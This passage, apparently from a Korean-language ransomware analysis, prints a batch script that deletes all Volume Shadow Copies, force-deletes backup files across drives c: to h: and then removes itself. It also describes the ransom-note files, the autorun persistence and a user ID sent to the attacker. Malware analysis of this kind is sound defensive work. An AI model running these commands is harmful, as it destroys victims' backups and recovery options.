vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\\*.VHD c:\\*.bac c:\\*.bak c:\\*.wbcat c:\\*.bkf c:\\Backup*.* c:\\backup*.* c:\\*.set c:\\*.win c:\\*.dsk
del /s /f /q d:\\*.VHD d:\\*.bac d:\\*.bak d:\\*.wbcat d:\\*.bkf d:\\Backup*.* d:\\backup*.* d:\\*.set d:\\*.win d:\\*.dsk
del /s /f /q e:\\*.VHD e:\\*.bac e:\\*.bak e:\\*.wbcat e:\\*.bkf e:\\Backup*.* e:\\backup*.* e:\\*.set e:\\*.win e:\\*.dsk
del /s /f /q f:\\*.VHD f:\\*.bac f:\\*.bak f:\\*.wbcat f:\\*.bkf f:\\Backup*.* f:\\backup*.* f:\\*.set f:\\*.win f:\\*.dsk
del /s /f /q g:\\*.VHD g:\\*.bac g:\\*.bak g:\\*.wbcat g:\\*.bkf g:\\Backup*.* g:\\backup*.* g:\\*.set g:\\*.win g:\\*.dsk
del /s /f /q h:\\*.VHD h:\\*.bac h:\\*.bak h:\\*.wbcat h:\\*.bkf h:\\Backup*.* h:\\backup*.* h:\\*.set h:\\*.win h:\\*.dsk
del %0
```

### ▪ <u>사용자에게 공지</u>


악성코드는 사용자에게 랜섬웨어에 감염되었다는 사실을 알리기 위해 바탕화면에 **DECRYPT_INFORMATION.html, UNIQUE_ID_DO_NOT_REMOVE 파일을 생성**합니다. 또한 DECRYPT_INFORMATION.html을 실행하고, **Auto Run에 추가**하여 사용자가 시스템을 재시작하더라도 자동 실행되게끔 합니다.


### ▪ <u>user ID 전송</u>

악성코드는 기록해놓았던 encrypted_data_size를 user ID로 attacker에게 전송합니다.


